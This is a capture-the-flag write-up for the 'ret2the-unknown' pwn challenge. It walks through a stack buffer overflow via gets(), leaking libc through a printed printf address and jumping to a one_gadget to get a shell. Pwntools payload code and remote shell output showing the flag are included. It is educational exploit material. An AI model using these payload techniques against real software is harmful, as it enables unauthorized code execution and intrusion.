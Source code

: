 # ret2the-unknown

## Initial Exploration

We first run `checksec` to see the protections on the binary.

```bash
$ checksec ret2the-unknown
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

[This](https://www.programmersought.com/article/69684755927/) article goes into more details about what these mean, but essentially most of the protections are disabled which makes an exploit easier.

Like the other challenges in this CTF, there is a source file provided.

```c
--snipped--

    char your_reassuring_and_comforting_we_will_arrive_safely_in_libc[32];

--snipped--

    gets(your_reassuring_and_comforting_we_will_arrive_safely_in_libc);

    puts("phew, good to know. shoot! i forgot!");
    printf("rob said i'd need this to get there: %llx\n", printf);
    puts("good luck!");
```

As the name of the challenge suggests, we need to overwrite the return address on the stack to control the program flow. Since `gets` does not restrict the length of our input, we can use it to write onto the stack.

---
## How the stack works

Let's look at how the stack is typically organised as a quick aside. 

```
Low memory address

| Local Variable N | <-- ESP   -┐ 
|       ...        |            |
| Local Variable 2 |            |
| Local Variable 1 |            |
|      Old EBP     | <-- EBP    |- A stack frame
|  Return Address  |            |
|    Argument 1    |            |
|    Argument 2    |            |
|       ...        |            |
|    Argument N    |           -┘

High memory address
```

This stack frame is 'written' to the stack for every function call. The value in `EBP` stays constant within the function call, while the value in `ESP` can change.

With that knowledge, here's how the stack of this program looks like.

```
|     char[32]     | <-- ESP  
|      Old EBP     | <-- EBP 
|  Return Address  | <-- We need to overwrite this
|       ...        |
```

We can verify that by looking at the stack in gdb.

```
0x00007fffffffdcb0│+0x0000: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"   ← $rsp
0x00007fffffffdcb8│+0x0008: "aaaaaaaaaaaaaaaaaaaaaaaa"
0x00007fffffffdcc0│+0x0010: "aaaaaaaaaaaaaaaa"
0x00007fffffffdcc8│+0x0018: "aaaaaaaa"
0x00007fffffffdcd0│+0x0020: 0x0000000000401200  →  <main+122> cmp eax, 0xee3    ← $rbp
0x00007fffffffdcd8│+0x0028: 0x00007ffff7e14d0a  →  <__libc_start_main+234> mov edi, eax
```
---
## Opening a shell
Controlling the program flow is useless if we can't make use of it. To do that, we need to redirect control flow to functions in libc to open a shell.

Here, we use [one_gadget](https://github.com/david942j/one_gadget) in order to find an address in libc to jump to to open a shell. (Note that different versions of libc have different addresses/constraints)

```bash
$ one_gadget libc-2.28.so 
0x4484f execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x448a3 execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xe5456 execve("/bin/sh", rsp+0x60, environ)
constraints:
  [rsp+0x60] == NULL
```

These addresses are the offset from the base of libc, so we need to find that first. Luckily for us, the program already prints the address of `printf`, a known function in libc.

```c
printf("rob said i'd need this to get there: %llx\n", printf);
```

All we have to do is take this address, subtract the offset of `printf`, and add our one_gadget offset to find the address we need to jump to.

---

## Putting it together

Phew, that was a lot but we're almost there! 

A small problem is that the address of `printf` is leaked _after_ we redirect the flow of the program, but no worries, we can always redirect the program back to the start of main! 

Here's what we need to do:

1. Redirect program to run main again
2. Leak address of `printf`
3. Redirect program to jump to our one_gadget

We'll do this using pwntools. The full solution can be found in `solve.py`, but here are the important parts.

```python
loop_payload = b'a' * 32       # Pad char[32] array
loop_payload += p64(0x0)       # Filler rbp value
loop_payload += p64(main_addr) # Loop back to start of main

# some code to parse printf

libc_base = printf_addr - libc.symbols['printf']
one_gadget = libc_base + 0x4484f

payload = b'a' * 32
payload += p64(0x0)
payload += p64(one_gadget)     # Open a shell
```
---
## Remote execution

```bash
$ python solve.py REMOTE

REMOTE PROCESS
[+] Opening connection to mc.ax on port 31568: Done
[*] Printf address: 0x7f494d82d560
[*] Libc base: 0x7f494d7d5000
[*] one_gadget: 0x7f494d81984f
[*] Switching to interactive mode

$ ls
flag.txt
run

$ cat flag.txt
flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}
```

`flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}`

---
## Extra notes

If a libc library is provided, be sure to patch your binary! This will help save a lot of pain when running locally vs externally.

I... haven't figured out how to do this yet so I'll just leave a [link](https://github.com/skysider/pwndocker) here and maybe update this next time. ¯\\_(ツ)_/¯

